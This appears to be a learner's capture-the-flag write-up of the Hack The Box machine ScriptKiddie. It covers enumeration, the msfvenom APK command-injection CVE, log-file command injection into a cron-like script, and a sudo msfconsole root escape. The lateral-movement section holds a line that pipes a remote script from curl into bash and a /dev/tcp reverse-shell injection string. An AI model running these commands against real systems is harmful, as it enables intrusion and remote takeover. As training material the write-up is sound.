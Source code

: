 ```yaml
---
title: "ScriptKiddie HTB"
date: 2021-08-28T17:30:30
categories:
  - study
tags:
- Linux
- Outdated Software
classes: wide
---
```

ScriptKiddie is an easy rated Linux box from May 2021. The HTB writeup PDF describes it as:

>*"ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability (CVE-2020-7384), 
along with classic attacks such as OS command injection and an insecure passwordless sudo configuration. "*

[Link.][htbboxlink]

[htbboxlink]: https://app.hackthebox.eu/machines/scriptkiddie

<h2> Enumeration</h2>
**Nmap scan results:**

```
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<h4>What is the scan telling us?</h4>

- Port 22 is open running ssh, specifically OpenSSH 8.2p1 on Ubuntu.
- Reveals a web server on 5000, with Werkzeug 0.16.1 running on Python 3.8.5. [Werkzeug](https://werkzeug.palletsprojects.com/en/2.0.x/) is *"a comprehensive WSGI web application library."* 

[WSGI](https://wsgi.readthedocs.io/en/latest/what.html) refers to:

>*"Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request."*

Accessing the site at http://10.10.10.226:5000/ we see 3 inputs for a basic "hackers toolbox".

There are numerous "tools" present on the page, including a Nmap, msfvenom and a SearchSploit tool. 

I assume that the Nmap and SearchSploit simply run the binaries and display results. The venom generator allows us to upload files to it, this 
could be a potential exploit point. But at this point I am lost, reading writeups it seems that the vulnerability is within msfvenom 
itself. This [Github page](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md) by the exploit author Justin Steven explains the vuln and references it as [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). They explain that:

>*"There is a command injection vulnerability in msfvenom when using a crafted APK file as an Android payload template.
Metasploit Framework provides the msfvenom tool for payload generation. For many of the payload types provided by msfvenom, it allows the user to provide a "template" using the -x option."*

It seems that using a "poisoned" or evil APK file as a template can result in command injection on the template user's system. More details:

>*"An attacker who could trick an msfvenom user into using a crafted APK file as a template could execute arbitrary commands on the user's system.
For example, an attacker could prepare and publish a crafted APK file that they believe is an enticing template. If a user of Metasploit Framework obtains that APK file and attempts to use it as an msfvenom template, arbitrary commands can be executed on that user's machine."*

For this it seems the following criteria can result in a command injection vuln:

>*"If a crafted APK file has a signature with an "Owner" field containing A single quote (to escape the single-quoted string) followed by shell metacharacters."*




<h2>Foothold</h2>

We follow the instructions from the previously referenced Github page. Which involved downloading a python script to generate an "evil.apk" file, the script will: 

>*"produce a crafted APK file that executes a given command-line payload when used as a template."*

In this case we will be using it to execute a reverse shell on the box.
We start our Netcat listener, set the target as Android on the website, we do this because APK files are Android Package files. 
We then upload the APK and catch the shell. Now we have a shell, we upgrade to a tty with `/usr/bin/script -qc /bin/bash /dev/null`. 

We find the user flag in `kid`'s home folder.

<h2>Lateral movement</h2>
I am way out of my depth here.

According to the writeups it seems that lateral movement to another user is required.
We see that there is a script called `scanlosers.sh` in a user called `pwn`'s home directory. 
Reading the script we see that it reads rows from the `/home/kid/logs/hackers` file to read IP addresses and run nmap on them: We find the other logs in `./html`, a handy command is:

```bash
kid@scriptkiddie:~/html$ grep -R logs .
grep -R logs .
./app.py:        with open('/home/kid/logs/hackers', 'a') as f:
```
This searches recursively files for the presence of logs.

We see that `app.py` writes to `/home/kid/logs/hackers.`

Reading app.py we see that it writes to the logs directory when non-alphanumeric characters are input into the website's SearchSploit field. 
The writer assumes that submitted non-alpha characters represent an attempt to *"hacK"* them. So the script notes ip addresses of users who submit them in a log and run Nmap on them. 

`scanlosers.sh` does not perform any input validation so we can perform "arbitrary OS command injection" by inputting our reverse shell in there. [Ippsec](https://youtu.be/Yn3iGF8xMQI?t=1979) does an excellent analysis of scanlosers.sh, after watching their video I now understand why our command would be executed.

```bash
#!/bin/bash
 
log=/home/kid/logs/hackers
 
cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done
 
if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

We can see that the script reads the log file, then field separates the log based upon a single character separator of a ' ' space. Every field from the third field onward is treated as an ip.

Once the script determines what an ip is, it is then nmap'd by the command in the `do` part of the script:

```bash
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null"
```

Ippsec points out that if the log file contains a string that has whatever for the initial two fields and then a semicolon, it would essentially nullify the first part of the command which is `nmap --top-ports 10 -oN recon/$`. 

Then a desired command can be placed in the third field, which is then ended with a hash(#) to comment out the rest of the command `.nmap ${ip} 2>&1 >/dev/null`. Their example is:

```bash
echo 'abc def ;curl 10.10.14.2:8000/rev.sh | bash #' > hackers
```

This would result in the initial and end part of the original command being nullified by `;` and `#`. As the first part is not a command so does not execute, then our command is read, and then the end of the original command is commented out.
Our command would then be executed by `scanlosers.sh`, giving us a shell as `pwn` as `pwn` owns `scanlosers.sh`. 

Putting our reverse shell into `/home/kid/logs/hackers.` with: 
`echo 'a b $(bash -c "bash -i &>/dev/tcp/YOURIP/YOURPORT 0>&1")' > /home/kid/logs/hackers` 
gives us the reverse shell as pwn.

<h2>Privilege Escalation</h2>

Now that we are `pwn`, running `sudo -l` we see:

```bash
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Since we can run msfconsole as sudo, we simply run it as sudo and then drop into the integrated ruby shell with command `irb`. 
Then run `system("/bin/bash")` which drops us into a root shell, and the root flag can be found in the usual `/root/root.txt`.

<h4>For next time:</h4>

- Enumerate the contents of the home directories more carefully, figure out what scripts are doing and what they may be writing to.
- Ippsec uses pspy alot, which seems to be a good process monitor. Run it, and then interact with the website to see what processes are called and when.
- Learn bash.
- Things sometimes write logs, in which case figure out where they are writing to and what else uses them.
- As for foothold, try to find a CVE on everything, don't be afraid to just try them. It isn't a race.

